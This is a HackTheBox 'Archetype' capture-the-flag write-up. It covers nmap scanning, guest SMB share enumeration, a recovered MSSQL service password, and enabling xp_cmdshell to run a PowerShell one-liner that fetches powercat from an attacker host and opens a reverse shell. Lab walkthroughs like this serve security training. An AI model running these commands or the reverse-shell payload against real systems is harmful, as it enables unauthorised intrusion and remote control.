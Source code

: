 ```yaml
---
layout: post
title: HackTheBox Archetype
subtitle: StartingPoint Archetype Exam WriteUp
author: g3rm
categories: 
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
sidebar:
---
```



## Summary
![](assets/images/posts/2025-03-06-Archetype/c7aa0835353bb4a42ec1fb12fcdc3a18_MD5.jpeg)
## Target - 10.129.68.227
### Open Port
```bash
nmap -sC -sV -Pn -oN Archetype 10.129.68.227
```
![](assets/images/posts/2025-03-06-Archetype/1e4da9b4abb6d6341988fa1a18d32841_MD5.jpeg)
### SMB Enum (Guest Auth)
```bash
crackmapexec smb 10.129.68.227 -u 'guest' -p '' --shares
crackmapexec smb 10.129.68.227 -u 'guest' -p '' --spider backups --regex .

# ARCHETYPE\sql_svc : M3g4c0rp123
smbclient \\\\10.129.68.227\\backups -U 'guest' --password=''
get prod.dtsConfig
cat prod.dtsConfig
```

![](assets/images/posts/2025-03-06-Archetype/d16001211c17989921ca9d7924123219_MD5.jpeg)![](assets/images/posts/2025-03-06-Archetype/2b3979fe8f0430bac8990e09ff6483da_MD5.jpeg)

### mssql RCE
```bash
impacket-mssqlclient ARCHETYPE/sql_svc:M3g4c0rp123@10.129.68.227 -windows-auth

# xp_cmdshell 활성화
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
# oneline reverse shell
EXEC xp_cmdshell 'powershell -c "IEX (New-Object System.Net.Webclient).DownloadString(\"http://10.10.14.11:8000/powercat.ps1\");powercat -c 10.10.14.11 -p 4444 -e powershell"';
```

![](assets/images/posts/2025-03-06-Archetype/9c5ab89e51a73bef43ca35e9513680a4_MD5.jpeg)![](assets/images/posts/2025-03-06-Archetype/ddd88b5c3111a3ccd4219434fe508f7a_MD5.jpeg)